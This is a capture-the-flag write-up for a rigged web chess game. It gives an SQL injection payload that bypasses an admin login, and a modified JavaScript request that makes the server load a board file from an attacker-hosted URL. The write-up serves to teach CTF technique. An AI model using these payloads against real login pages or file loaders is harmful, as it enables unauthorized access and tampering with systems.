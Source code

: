 # Chess

### Description

This is a chess game that is rigged in favor of the computer. When you play, the CPU will generate more queens, making it impossible to win. Interestingly, the site has a "Master Login" button that leads to the url `/admin.php`.

To get the flag, you need to checkmate the computer.

-----

### Solution 1

This was the solution that I came up with on the first go-around. You can bypass the login page at `/admin.php` by using the SQLi payload `' OR 1=1 -- `. Once there, you'll see a page titled "Change config of the Chess AI!". 

To win, you need to select the "No" option for "AI Queen Cheats" and click the submit button. From there, I just played the computer in a normal game of chess and won.

-----

### Solution 2

A better solution is apparent when inspecting the source code of the chess game. You can see a definition for this `load_baseboard()` function:

```javascript
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}
```

To exploit this, you need to find a FEN file [(Fen Notation)](https://www.chess.com/terms/fen-chess) containing a winning position for white, and host it somewhere. Then, run a modified `load_baseboard()` function that looks like the following:

```javascript
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', '<URL_OF_YOUR_FEN_FILE>')

  xhr.open('POST', url, true)
  xhr.send(formData);
}
```

This has two changes:

1. We've replaced the "baseboard.fen" with our own FEN file containing the winning position
2. We've removed the last line that would refresh the page

These changes will cause the function to load a winning position and stay on the page, triggering a win for white.